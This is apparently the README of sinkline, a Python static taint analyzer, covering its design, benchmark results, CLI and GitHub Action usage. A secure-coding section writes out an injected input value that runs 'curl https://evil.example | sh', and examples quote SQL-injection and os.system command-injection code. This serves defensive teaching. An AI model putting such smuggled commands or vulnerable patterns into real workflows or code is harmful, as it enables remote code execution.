


# sinkline

[](https://github.com/samiali38183/sinkline/actions/workflows/ci.yml)


sinkline is a static analyzer for Python web apps (Flask, FastAPI, Django, aiohttp). It follows
attacker-controlled input across functions and files and reports it only when it reaches a dangerous
sink (SQL, shell, `eval`, file paths, redirects, deserialization, ...) without a sanitizer for that
bug class. I wrote it because pattern linters flag every `cursor.execute`, and after a while nobody reads the output.

| benchmark | metric | sinkline 0.5.1 | bandit 1.9.4 (default rules) | semgrep 1.185.0 (OSS, registry rules `p/python` + `p/owasp-top-ten`) |
|---|---|---|---|---|
| `bench/corpus/`: 109 lines, **labeled by the engine's author, not independent** | precision / recall / F1 | 1.000 / 0.984 / 0.992 | 0.623 / 0.541 / 0.579 (lenient) | not run |
| **OWASP BenchmarkPython v0.1, independent**: the 10 taint categories (240 vulnerable, 437 safe cases) | TPR / FPR / TPR-FPR | 0.73 / 0.21 / +0.52 | 0.13 / 0.06 / +0.07 | 0.07 / 0.03 / +0.04 |
| same suite, all 14 categories (adds weak hash, weak PRNG, cookie flags, trust boundary) | TPR / FPR / TPR-FPR | 0.39 / 0.12 / +0.27 | 0.40 / 0.03 / +0.36 | 0.16 / 0.02 / +0.14 |

The independent row is the one to weigh. sinkline 0.4.1 scored 0.41 / 0.20 / +0.21 on the same 10 categories.
I chose the 0.5.0 changes by reading that run's failures, so 0.5.0 is not a held-out score either.
sinkline finds several times more of the taint-class cases than the pattern tools, at a higher
false-positive rate. It does not attempt four of the benchmark's 14 categories. Bandit does, which is why it
leads over all 14. I scored with my own script, not the official scorer. Method, per-category table and
open problems are in [`bench/external/`](bench/external/README.md).

It is pure Python on the standard `ast` module with no dependencies. It has 43 rules mapped to OWASP 2021 and CWE,
text, JSON, SARIF and HTML output, a GitHub Action and a pre-commit hook.
There is a [sample HTML report](https://samiali38183.github.io/sinkline/) for the benchmark corpus.

```
$ sinkline scan vulpy        # fportantier/vulpy @ 5249cc8, one of 5 findings

[CRITICAL] SL-SQLI-001 A03:2021 CWE-89  bad/mod_user.py:20:20
  SQL built from tainted data
  flask.request.form reaches sqlite3.Cursor.execute (inside login, bad/libuser.py:12) without a sanitizer for CWE-89.
  ┌ source     bad/mod_user.py:16  username = request.form.get('username')  # flask.request.form
  │ propagate  bad/mod_user.py:16  username = request.form.get('username')  # .get()
  │ call       bad/mod_user.py:20  username = libuser.login(username, password)  # passed as `username` to login()
  └ sink       bad/libuser.py:12  user = c.execute("SELECT * FROM users WHERE username = '{}' and password = '{}'".format(username  # sqlite3.Cursor.execute inside login()
  fix: Use parameterized queries: cursor.execute('... WHERE id = ?', (user_id,))
```

Try it (Python 3.9+, no dependencies):

```bash
pip install git+https://github.com/samiali38183/sinkline@v0.5.1
sinkline scan path/to/app
```

Here the source is in one file and the SQL is built in another. On the same project it reports nothing in
the `good/` tree, which defines the same function names. I labeled the 109-line corpus myself, so read
[Results](#results) and [Limitations](#limitations) before trusting the headline score.

## Contents

[The problem](#the-problem) · [How it works](#how-it-works) · [Design decisions](#design-decisions) ·
[Results](#results) · [Quick start](#quick-start) · [Usage](#usage) · [Where it fits](#where-it-fits) ·
[Limitations](#limitations) · [Roadmap](#roadmap) · [Development](#development) · [Changelog](CHANGELOG.md)

## The problem

Pattern-matching linters report one finding per `cursor.execute(...)` whether the argument came from
a config file or from `request.args`, and they cannot tell a parameterized query from a string-built
one. People then stop reading the output. The question worth asking is whether attacker-controlled
data can reach the sink without passing through something that neutralizes it for that bug class.
That is a data-flow question, and in web apps the answer usually crosses a function or file boundary
(a view reads `request.form`, a `libuser.login()` helper builds the SQL).

sinkline answers it statically, without running the app, and prints the path from source to sink so a
finding can be checked by reading a few lines.

## How it works



The `vulpy` finding above depends on the two-pass summaries. The sink is in
`bad/libuser.py`; the source is in `bad/mod_user.py`:



The abstract domain, guards, summaries and name resolution are described in
[`docs/DESIGN.md`](docs/DESIGN.md).

## Design decisions

Each of these is in the code and has tests. [`docs/DESIGN.md`](docs/DESIGN.md) has the longer reasoning.

- Summaries to a fixpoint, not inlining. Pass 1 analyzes every function with its parameters bound to
  symbolic labels (`param:i`) and records which parameters reach the return value, which reach sinks
  (through other calls too), and whether the function is a thin sanitizer wrapper. It repeats until
  no summary changes, so a sink four helpers deep is found whatever order the helpers are defined in
  (`test_deep_helper_chain_defined_caller_first`). Pass 2 reuses the summary at each call site. The cost is that
  summaries are context-insensitive.
- Sanitizers are scoped to a CWE. A taint value carries the set of CWEs it has been cleaned for.
  `shlex.quote` clears command injection only, `html.escape` clears XSS only, and `int()` clears
  everything. With a single global "sanitized" flag, a shell-safe value would look SQL-safe
  (`test_shlex_quote_clears_cmdi_only`, `test_html_escape_clears_xss_only`,
  `test_re_escape_is_not_a_sql_sanitizer`).
- Joins and guards. When two branches merge, the labels are unioned and the cleared CWEs are
  intersected, so a value stays sanitized only if both branches sanitized it. Validation guards work the same
  way: `if not x.isdigit(): abort()`, `if x not in ALLOWED: return`, `if/elif x == "a" ... else: abort()`,
  `if ".." in f`, `re.fullmatch`, `urlparse(x).netloc == ""` and `try: int(x) except: abort()` clear
  taint, but only on paths where the check holds. A guard is also scoped to a CWE: a `..` check is a path
  guard, not a shell guard.
- Dicts keep per-key taint. After `row = {"id": 1, "note": tainted}`, `row["id"]` is clean and
  `row["note"]` is not. The same holds for a dict built by constant-key assignment
  (`m = {}; m["a"] = "x"; m["b"] = tainted`). Computed keys, `**spread` and `dict(...)` fall back to
  whole-container taint, which errs toward a false positive.
- Dead branches are pruned. Locals that hold a literal are tracked as constants, so
  `if 7 * 42 - num > 200`, `"x" in s` on a literal string, a ternary on a constant condition and a
  `match` on a constant subject run only the live branch. A constant is dropped at a join where
  the paths disagree, and for anything assigned in a loop.
- Instance fields across methods. If `load()` stores `request.args[...]` in `self.target` and
  `fire()` passes `self.target` to `os.system`, sinkline reports it and names the method that stored the
  value. It does not know call order, so these findings get medium confidence.
- Sources, sinks and sanitizers are data. `model.py` is a table with 30 source entries, 151 sink
  signatures and 38 sanitizer entries. A sink that is only dangerous for some arguments carries a keyword
  gate (`subprocess.run(shell=True)`, `yaml.load` without `SafeLoader`, `torch.load(weights_only=...)`),
  so the engine has no special cases for them. Adding a sink is one line.
- Module-qualified summary keys. `bad/libuser.py::login` becomes `bad.libuser.login`. A short alias
  works only when it is unambiguous, and a call site resolves relative to its own package first. That is
  why `vulpy`'s `bad/` and `good/` trees, which define the same function names, give different results.
  A library name never falls back to a user function of the same bare name (`subprocess.run` cannot hit a
  user function called `run`).
- Typed framework parameters are not sources. FastAPI path parameters annotated `int`, `float`,
  `bool` or `UUID` are treated as already coerced.
- Fingerprints leave out line numbers. They are built from rule, file, function and normalized sink
  text, so a `--baseline` survives unrelated edits (`test_fingerprint_stable_across_line_shift`).
- Known limits stay in the score. Misses caused by a design limit are tagged `known FN` in
  `bench/corpus/hard_app.py` and counted in the headline numbers. `tests/test_corpus.py` fails if precision
  drops below 0.99 or recall below 0.96, or if a miss is not a documented one.

It handles assignments, f-strings, `%` and `.format`, slicing, string methods, containers, dict literal
keys, `self` fields, comprehensions, `await`, augmented assignment, loops, `try/except`, `match`, and
flows across functions and files. The 43 rules fall in 8 OWASP 2021 categories (A01, A02, A03, A05,
A07, A08, A09, A10): SQLi, command injection, code injection, SSTI, XSS, path traversal, Zip/Tar Slip,
open redirect, SSRF, deserialization (`pickle`, `yaml`, `torch.load`, `marshal`, `shelve`, `numpy.load`),
weak hashing, log injection, XXE, LDAP/XPath/NoSQL injection, ReDoS, and a few auth rules. Nothing maps
to A04 (Insecure Design) or A06 (Vulnerable Components). `sinkline rules` lists all of them.

## Results

The 0.5.1 numbers are identical to 0.5.0. The lambda and call-result fixes change no benchmark outcome, and
the per-test table from the re-run is byte-identical.

**Prior art, and how to read the Semgrep and Bandit columns.** Taint analysis for Python is not new.
[Semgrep](https://docs.semgrep.dev/writing-rules/data-flow/taint-mode/overview) has a taint mode for custom
rules (`mode: taint` with sources, sinks, sanitizers and propagators). Per that page, the open-source engine
follows data within one function, and cross-function and cross-file tracking need Semgrep Pro.
[CodeQL](https://codeql.github.com/docs/writing-codeql-queries/about-data-flow-analysis/) has local and global
data-flow and taint-tracking libraries. [Pysa](https://pyre-check.org/docs/pysa-basics/) is a
source/sink/rule-driven taint analyzer for Python built on Pyre, and [Joern](https://docs.joern.io/) builds code
property graphs with a taint engine. I did not run any of them with custom rules. I ran Semgrep OSS with only its
default registry rulesets (`p/python`, `p/owasp-top-ten`), which contain few taint-mode rules, so the
comparison favors sinkline on the taint categories. It says nothing about Semgrep taint mode with rules
written for this benchmark, or about CodeQL or Pysa, which would probably score much higher than the registry run.
What sinkline offers is a built-in model of Python web frameworks (sources, sinks and CWE-scoped
sanitizers as data) with cross-file summaries and no query language to learn. I do not claim better
analysis than those tools. The caveats above still apply: I labeled the corpus myself, I chose the 0.5.0 fixes
from 0.4.1 failures on this same benchmark, and the scorer is not the official one.

I reproduced the corpus figures with Python 3.12.2 (earlier runs on 3.10.11 and 3.13.1 gave
identical results) and the external-benchmark figures with Python 3.12.2 on 2026-11-11. Commands are in
[Development](#development).

### External benchmark (independent)

OWASP BenchmarkPython v0.1 (commit `f129148`), scored with my script, which follows the
BenchmarkUtils definitions but is not the official scorer. The 14-category results, Bandit and Semgrep
configs, versions, exact commands and raw per-test tables are in
[`bench/external/`](bench/external/README.md). The 10 taint categories (TPR / FPR / TPR-FPR):

| category (real / safe cases) | sinkline 0.4.1 | sinkline 0.5.0 | bandit | semgrep |
|---|---|---|---|---|
| sqli (5 / 11) | 0.80 / 0.00 / +0.80 | 0.80 / 0.00 / +0.80 | 1.00 / 1.00 / +0.00 | 0.00 / 0.00 / +0.00 |
| cmdi (13 / 7) | 0.31 / 0.57 / -0.26 | 0.39 / 0.14 / +0.24 | 1.00 / 1.00 / +0.00 | 0.54 / 1.00 / -0.46 |
| codeinj (20 / 33) | 0.65 / 0.52 / +0.14 | 0.75 / 0.39 / +0.36 | 0.00 / 0.00 / +0.00 | 0.00 / 0.00 / +0.00 |
| xss (31 / 58) | 0.74 / 0.50 / +0.24 | 0.77 / 0.31 / +0.46 | 0.00 / 0.00 / +0.00 | 0.00 / 0.00 / +0.00 |
| pathtraver (65 / 103) | 0.31 / 0.08 / +0.23 | 0.66 / 0.09 / +0.57 | 0.00 / 0.00 / +0.00 | 0.03 / 0.02 / +0.01 |
| redirect (13 / 21) | 0.69 / 0.38 / +0.31 | 0.69 / 0.38 / +0.31 | 0.00 / 0.00 / +0.00 | 0.00 / 0.00 / +0.00 |
| deserialization (18 / 36) | 0.83 / 0.14 / +0.69 | 0.89 / 0.06 / +0.83 | 0.72 / 0.19 / +0.53 | 0.50 / 0.17 / +0.33 |
| ldapi (16 / 13) | 0.00 / 0.00 / +0.00 | 0.69 / 0.15 / +0.53 | 0.00 / 0.00 / +0.00 | 0.00 / 0.00 / +0.00 |
| xpathi (51 / 135) | 0.10 / 0.04 / +0.06 | 0.80 / 0.22 / +0.58 | 0.00 / 0.00 / +0.00 | 0.00 / 0.00 / +0.00 |
| xxe (8 / 20) | 0.75 / 0.65 / +0.10 | 0.88 / 0.50 / +0.38 | 0.00 / 0.00 / +0.00 | 0.00 / 0.00 / +0.00 |

- sinkline does not cover `hash` (weak algorithm), `weakrand`, `securecookie` or `trustbound`, and scores 0 on
  all four. Bandit scores +1.00 on hash and +0.78 on weakrand, and Semgrep +0.76 on hash. "Weak hashing" in
  sinkline means an MD5 call applied to tainted data, not a general weak-algorithm check.
- Where sinkline leads, it is mostly because Bandit and Semgrep OSS have no rule, or almost none, for the
  category (xss, xpathi, ldapi, xxe, codeinj, pathtraver, redirect), not because their rules are worse. On
  deserialization, where all three have rules, sinkline scores +0.83 against +0.53 and +0.33, with fewer
  false positives. On sqli and cmdi Bandit flags every file, so its FPR is 1.00.
- sinkline's false-positive rate on this suite is high (0.21 pooled). Many of the safe cases are
  deliberately obfuscated. The other causes are listed in `bench/external/README.md`.
- The 0.4.1 to 0.5.0 gains come from fixes I made after reading this benchmark's misses (see
  [CHANGELOG.md](CHANGELOG.md)). Some are engine fixes and some are added sink coverage for APIs the suite
  uses. Expect less on code that is not shaped like this suite.

### Labeled benchmark (self-labeled, same author)

This one is not independent. `bench/corpus/` has 109 hand-labeled lines in Flask, FastAPI, Django and CLI code
(61 vulnerable, 48 safe variants of the same patterns, including cross-file and adversarial cases).
`bench/score.py` counts a true positive when a labeled `VULN:CWE-xx` line produces a finding with that CWE, and a
false positive when a `SAFE` line produces any finding. No findings land on unlabeled lines.

| tool | TP | FP | FN | TN | precision | recall | F1 |
|---|---|---|---|---|---|---|---|
| sinkline 0.5.0 | 60 | 0 | 1 | 48 | 1.000 | 0.984 | 0.992 |
| sinkline 0.4.1 | 60 | 0 | 1 | 48 | 1.000 | 0.984 | 0.992 |
| sinkline 0.4.0 | 59 | 0 | 2 | 48 | 1.000 | 0.967 | 0.983 |
| sinkline 0.3.0 | 58 | 1 | 3 | 47 | 0.983 | 0.951 | 0.967 |
| bandit (lenient: any hit on a vulnerable line counts) | 33 | 20 | 28 | 28 | 0.623 | 0.541 | 0.579 |

- sinkline's one FN is a labeled known limit in `hard_app.py`: taint passed between requests through a
  module global (`:224`, CWE-89). `python bench/score.py` prints per-CWE counts.
- 0.4.1 to 0.5.0: no line changed. The 0.5.0 fixes target patterns this corpus does not contain.
- 0.4.0 to 0.4.1: the closure FN at `hard_app.py:211` is found (a nested `def` now sees taint from
  the enclosing function). No other line changed.
- 0.3.0 to 0.4.0: the FP at `hard_app.py:84` is gone (key-sensitive dict literals) and the FN at
  `:183` is found (instance fields across methods). See [CHANGELOG.md](CHANGELOG.md).
- The bandit row was re-run with bandit 1.9.4; earlier runs with 1.8.3 and 1.8.6 gave the same
  counts. bandit 1.8.0 gives 32/21/29/27 (0.604 / 0.525 / 0.561), so the figure depends on the
  bandit version.
- This comparison shows scope, not a verdict on bandit. bandit is a pattern linter with no
  data-flow model. Its 20 false positives are mostly rules that fire on any string-built SQL
  (B608, 10 lines) or any `subprocess` call (B603, B607, B602, B605) even on the labeled-safe variants.
  Its misses sit in categories where it has no taint-based rule (labeled SQLi 9, XSS 5, path
  traversal 5, open redirect 4, command injection 3). The external benchmark above includes Semgrep OSS.
  I have not run CodeQL.

### Public projects

I cloned each repo at the listed commit and ran `sinkline scan <dir>`. Full output is in
[`docs/examples/`](docs/examples/). These projects are not labeled, so the table shows what was found, not recall.

| repo | commit | findings | notes |
|---|---|---|---|
| [fportantier/vulpy](https://github.com/fportantier/vulpy) | `5249cc8` | 4 x CWE-89, 1 x CWE-22 (57 files, 216 functions) | all five in `bad/`; three flow `mod_user.py` to `libuser.py` across files, two are `request.get_json()` data in `bad/mod_api.py` (0.5.0 missed these: a call to a source method such as `get_json()` was not tainted); 0 findings in `good/` in a whole-tree scan, which has the same function names |
| [we45/Vulnerable-Flask-App](https://github.com/we45/Vulnerable-Flask-App) | `b6a4f97` | 5: SSTI (CWE-1336), SQLi (CWE-89), XSS (CWE-79, two findings, one on the same template call as the SSTI), MD5 (CWE-328) | 4 CWEs in 2 OWASP categories (A02, A03); 0.4.1 reported 4 (the second XSS call-result finding is new in 0.5.0) |
| [anxolerd/dvpwa](https://github.com/anxolerd/dvpwa) | `a1d8f89` | 1 x CWE-89, 1 x CWE-117 | aiohttp, async handlers |
| [miguelgrinberg/microblog](https://github.com/miguelgrinberg/microblog) | `a975ef6` | 1 x CWE-918 (new in 0.5.1) | `request.get_json()` fields reach the query string of a fixed-host URL in `app/translate.py` (`translate()`). sinkline reports tainted data anywhere in an outbound URL as SSRF (the corpus labels `"https://api.internal/" + path` the same way), so this is parameter injection into a fixed host, not a proven SSRF. The `urlsplit(next_page).netloc != ''` redirect check in `app/auth/routes.py` is still treated as a guard |

Three of these are intentionally vulnerable training apps. I am not claiming any CVE or confirmed
real-world vulnerability. Compared with 0.5.0, 0.5.1 adds the two vulpy `mod_api.py` findings and the microblog
finding (all three through `request.get_json()`), and shows `await request.post()` as the dvpwa source line
instead of the handler parameter. I regenerated `docs/examples/`.

## Quick start

Python 3.9+, no dependencies.

```bash
pip install git+https://github.com/samiali38183/sinkline@v0.5.1
sinkline scan path/to/app                       # text report with source to sink paths
sinkline scan . --format sarif -o out.sarif      # upload to GitHub code scanning
sinkline scan . --fail-on high                   # exit 1 for CI if anything high or critical; 2 or 3 if nothing was scanned
sinkline explain SL-CMDI-003                     # what a rule matches and why
```

To see it on the benchmark instead of your own code:

```bash
git clone https://github.com/samiali38183/sinkline && cd sinkline
pip install -e ".[dev]"
sinkline scan bench/corpus/flask_app.py          # 22 findings, each with its flow
pytest -q                                        # 186 tests on main (the v0.5.1 release has 184), including the corpus gate
python bench/score.py                            # precision 1.000  recall 0.984  F1 0.992
```

## Usage

```bash
sinkline scan path/to/app                        # text report
sinkline scan . --format sarif -o out.sarif      # GitHub code scanning (SARIF 2.1.0 with codeFlows)
sinkline scan . --format html -o report.html     # self-contained shareable file
sinkline scan . --format json -o base.json       # machine-readable, stable fingerprints
sinkline scan . --baseline base.json             # only findings not in the baseline
sinkline scan . --fail-on high                   # exit 1 at/above a severity
sinkline scan . --fail-on high --fail-on-parse-error   # also exit 3 if any file could not be parsed
sinkline scan . --min-confidence high            # drop low-confidence flows
sinkline scan . --rule A03:2021 --rule CWE-79    # restrict by rule id, OWASP category or CWE
sinkline scan . --exclude-tests
sinkline rules                                   # 43 rules, 151 sink signatures, by OWASP category
sinkline explain SL-CMDI-003
```

#### Exit codes

A CI gate should not pass because nothing was scanned, so `sinkline scan` separates these cases:

| code | meaning |
|---|---|
| 0 | scanned; no finding at or above `--fail-on` (or `--fail-on` not given) |
| 1 | at least one finding at or above `--fail-on` |
| 2 | error: path not found or unreadable, unreadable `--baseline`, unwritable `-o` file. Nothing is written to stdout. |
| 3 | scan incomplete: a file could not be read or parsed and `--fail-on-parse-error` was given, or no Python file was analyzed and `--fail-on` was given |

If several apply, 2 wins over 1, and 1 over 3. Files that fail to parse are always reported: count and names
on stderr, in the `errors` / `files_failed` fields of the JSON report, and as SARIF
`toolExecutionNotifications` (ids `SL-NOTIFY-PARSE`, `SL-NOTIFY-NOFILES`; `executionSuccessful` is false when a file failed to parse), but they change the exit
code only with `--fail-on-parse-error`. A scan that analyzes zero files always prints a warning and exits 3 under
`--fail-on`; `--exclude-tests` that excludes everything counts as zero files.

On `vulpy`, a JSON scan followed by `--baseline` against it reports 0 findings, and `--fail-on high`
exits 1 on the plain scan.

As a GitHub Action:

```yaml
- uses: samiali38183/sinkline@v0.5.1
  with:
    path: .
    fail-on: high
    fail-on-parse-error: "true"   # optional, default "false"
```

| input | default | meaning |
|---|---|---|
| `path` | `.` | file or directory to scan |
| `fail-on` | empty (never fail on findings) | `low`, `medium`, `high` or `critical` |
| `min-confidence` | `low` | `low`, `medium` or `high` |
| `fail-on-parse-error` | `false` | `"true"`: fail the job if any file could not be read or parsed |

The scan step records the CLI exit code (table above). The SARIF upload still runs when a report exists, and the
last step fails the job with a message per code. Code 1 means findings at or above `fail-on`. Code 2 means the path
could not be scanned (a typo in `path`, say), and since no report exists the upload is skipped. Code 3 means the
scan was incomplete: `fail-on-parse-error` with an unparseable file, or no Python file analyzed while `fail-on` is
set. Since 0.5.1 a missing `path` fails the job, where 0.5.0 passed it.

#### Using the GitHub Action safely

Workflow inputs are untrusted text. Writing `${{ inputs.path }}` inside a `run:` block pastes the
value into the shell script before bash parses it, so an input can become code. The action passes
inputs through `env:` and quotes them:

```yaml
# unsafe: with path = ". ; curl https://evil.example | sh" the shell runs the second command
- run: sinkline scan ${{ inputs.path }} --fail-on ${{ inputs.fail-on }}

# safe: the value is data in an environment variable, quoted, one argv entry
- env:
    INPUT_PATH: ${{ inputs.path }}
  run: sinkline scan "$INPUT_PATH"
```

`fail-on`, `min-confidence` and `fail-on-parse-error` are also checked against an allow-list (`low|medium|high|critical`,
`low|medium|high` and `true|false`), and the job fails on anything else. `tests/test_action.py` runs
`scripts/action-scan.sh` with hostile values and checks that nothing is executed and that each
input reaches the CLI as a single argument. The same rule holds for your own workflows: do not put
`${{ github.event.* }}` or `${{ inputs.* }}` directly in `run:`. Versions before 0.4.1 used the
unsafe form. Pin the action to a commit or tag, as the examples do, not `@main`.

As a [pre-commit](https://pre-commit.com) hook, in `.pre-commit-config.yaml`:

```yaml
repos:
  - repo: https://github.com/samiali38183/sinkline
    rev: v0.5.1
    hooks:
      - id: sinkline
        # default args: [".", "--fail-on", "high", "--exclude-tests"]
        # args: [src, --fail-on, medium, --baseline, sinkline-baseline.json]
```

The hook scans the whole tree, not just the staged files, because a flow can start in one
file and reach the sink in another. It runs only on commits that touch Python files. I tried it with
`pre-commit try-repo`: a commit adding `os.system("ping " + request.args["h"])` fails with the
finding, and the fixed file passes.

Python API:

```python
from sinkline import scan_path
res = scan_path("src/")
for f in res.findings:
    print(f.rule_id, f.cwe, f.file, f.line, [s.kind for s in f.flow])
```

## Where it fits

It works as a PR gate for Python web services. The SARIF output puts the source-to-sink path in the code
scanning UI, and `--fail-on` with `--baseline` lets you adopt it on an existing codebase by failing only on new
findings. The pre-commit hook runs the same check on the developer's machine. The flow trail also makes it quick
to confirm or dismiss a finding, and to show why a sanitizer was or was not enough.

It should not be your only control. It shows reachability, not an exploit, it only reads Python, and it has the
blind spots listed below. The only head-to-head run I have is against Bandit and Semgrep OSS on one synthetic
suite (see Results).

## Limitations

- Accuracy on independent code is modest. On OWASP BenchmarkPython the false-positive rate is 0.21
  and the true-positive rate 0.73 on the taint categories, and sinkline does not cover weak hash, weak PRNG,
  cookie flags or trust-boundary rules at all. Use it to triage, not as a gate you trust blindly.
- The corpus is small and self-labeled: 109 lines, labeled by the person who wrote the engine. It doubles as
  a regression suite (the CI floor is the recorded score), so the headline numbers mean "no regressions, and
  the design limits are visible", not an estimate of how it generalizes. Two of the 0.4.0 changes were written
  to fix lines in this corpus, which is why it is not a held-out score. The public-project scans are the more
  independent check, but they are unlabeled and few.
- Known design limits (labeled `known FN` in `bench/corpus/hard_app.py`):
  - closures that are returned and called elsewhere, and variables assigned in the enclosing
    function after the nested `def` (a nested `def` sees the enclosing taint as of its definition);
  - module globals shared across requests (`CACHE["q"] = tainted` in one handler, read in another);
  - dynamic dispatch, `getattr`, `exec`-generated code, decorators that rewrite arguments.
- Lambdas are analyzed only where they are called by name. `f = lambda c: os.system(c); f(x)` and
  `(lambda c: ...)(x)` are analyzed at the call with the arguments bound, using the caller's variables at that call.
  A lambda passed as a callback (`map`, `sorted(key=...)`, `Thread(target=...)`, `executor.submit`), stored in a
  container or attribute, returned, or defined in one function and called in another is not followed.
- Exit codes cover only what sinkline could parse. A file that fails to parse (including newer syntax than the
  running Python's `ast` accepts) is skipped; it is reported, and fails the run only with `--fail-on-parse-error`.
- Instance fields are per class, not per object. No inheritance, no aliasing (`other = self`),
  no fields on non-`self` objects, and no call ordering: if `fire()` can run before `load()`, or
  `load()` is never called, the finding is still reported (at medium confidence).
- Key sensitivity covers constant-key dicts only. Dicts built with `dict(...)`, `**spread`, computed
  keys or in loops, and all lists, are tracked as a whole container: a list that is appended to and
  popped by position is not modeled, which is the main false-positive source on the external benchmark.
- Taint carried by other objects is lost: `ConfigParser.set` then `.get`, and request data wrapped in a
  user-defined object, are not tracked.
- XSS is reported for tainted strings returned from a view, for `HTMLResponse` / `HttpResponse` /
  `Response` / `make_response` bodies, `render_template_string` with a tainted template, and a few string
  helpers on those values. It does not follow a tainted value into a template context (autoescaping is
  assumed) and it does not model response content types.
- Python only. No JavaScript templates; ORM query builders are modeled only at the raw-SQL entry
  points (`sqlalchemy.text`, `QuerySet.raw`, `Session.execute`); no type inference beyond receiver
  resolution.
- Summaries are context-insensitive (one per function, not per call site).
- No coverage for the A04 and A06 OWASP categories (see above).
- CI scope: the test matrix is Python 3.9, 3.12 and 3.13 on Linux, Windows and macOS
  (`.github/workflows/ci.yml`), plus `ruff` and `mypy`.

## Roadmap

These follow from the limits above. None is implemented:

- Closure capture, and a heap model for per-object fields, inheritance and objects that hold taint (`ConfigParser`, wrappers).
- Position-sensitive lists, and key-sensitive tracking for dicts built outside literals.
- Rules for the benchmark categories sinkline does not cover (weak hash, weak PRNG, cookie flags) if the
  scope is widened beyond taint.
- More labeled real-world projects, to complement the external benchmark.

## Development

```bash
pip install -e ".[dev]"
pytest -q                       # 186 tests on main (184 at v0.5.1): engine unit tests plus the corpus gate
python bench/score.py -v        # corpus P/R/F1, per-CWE table, per-line FP/FN listing
pip install ruff mypy && ruff check . && mypy
pip install bandit && python bench/compare_bandit.py
```

```
sinkline/
  engine.py    ~1720 lines  abstract interpreter, summaries, fields, guards, fixpoint
  model.py      ~440 lines  sources / sinks / sanitizers / OWASP+CWE table
  resolve.py    ~150 lines  import + alias + receiver-type resolution
  report.py     ~240 lines  text / JSON / SARIF 2.1.0 / HTML
  cli.py        ~175 lines
bench/
  corpus/       labeled ground truth (VULN:CWE-xx / SAFE tags) incl. cross-file + adversarial cases
  score.py      precision / recall / F1 per CWE
  compare_bandit.py
  external/     OWASP BenchmarkPython scorer, run script, per-test results (benchmark itself is not copied)
tests/          unit tests (one small program per engine feature) + corpus gate + action tests
scripts/        action-scan.sh, the script action.yml runs
docs/DESIGN.md  design notes
docs/examples/  real scan output (vulpy, Vulnerable-Flask-App, dvpwa, corpus as HTML and SARIF)
.pre-commit-hooks.yaml   pre-commit hook definition
.github/workflows/pages.yml   publishes the corpus HTML report to GitHub Pages
```

## License

MIT
